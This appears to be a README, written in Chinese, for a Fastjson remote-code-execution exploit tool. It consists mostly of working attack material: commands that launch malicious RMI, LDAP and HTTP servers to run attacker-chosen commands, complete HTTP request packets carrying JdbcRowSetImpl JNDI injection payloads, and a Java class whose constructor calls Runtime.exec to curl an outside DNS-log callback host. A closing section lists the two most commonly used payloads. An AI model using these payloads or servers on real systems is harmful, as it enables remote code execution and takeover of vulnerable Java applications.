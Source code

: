 # fastjson_rce_tool


1. 启动RMI服务，后面写要执行的语句(有依赖，tomcat8稳定复现)
java -cp fastjson_tool.jar EvilRMIServer 8888 53 "curl dnslog.wyzxxz.cn"

2. 启动LDAP服务，后面写要执行的语句
java -cp fastjson_tool.jar LDAPRefServer2 8888 CommonsCollections1 "curl dnslog.wyzxxz.cn"

3. 启动ldap服务，从http服务获取class
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888

4. 启动http服务器
java -cp fastjson_tool.jar EvilHttpService 127.0.0.1 80



```

rmi:
1. 启动RMI服务，后面写要执行的语句(有依赖，tomcat8稳定复现)
java -cp fastjson_tool.jar EvilRMIServer 8888 53 "curl dnslog.wyzxxz.cn"

2. 发送请求包
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:8888/Object","autoCommit":true}

3. 查看日志是否curl成功

===================================================================================================

ldap:
1. 启动LDAP服务，后面写要执行的语句
java -cp fastjson_tool.jar LDAPRefServer2 8888 CommonsCollections1 "curl dnslog.cn"

2. 发送请求包
POST /test HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_3_1 like Mac OS X) 

{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:8888/Object","autoCommit":true}


3. 查看日志是否执行成功

===================================================================================================

else:
有些环境可能利用不成功，可以尝试默认的测试方法,
例如：
生成测试的class文件，
import java.lang.Runtime;
import java.lang.Process;

public class Object {
    public Object() throws Exception {
        Runtime.getRuntime().exec("curl dnslog.cn");
   }
}
javac Object.java

启动http服务器
java -cp fastjson_tool.jar EvilHttpService 127.0.0.1 80

启动ldap服务，从http服务获取class
java -cp fastjson_tool.jar LDAPRefServer http://ip:port/#Object 8888

查询执行结果


=======================================================
最常用的2个如下：
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:8888/Object","autoCommit":true}

{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:8888/Object","autoCommit":true}}

```


![0](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/work.png)

![1](https://github.com/wyzxxz/fastjson_rce_tool/blob/master/2.png)

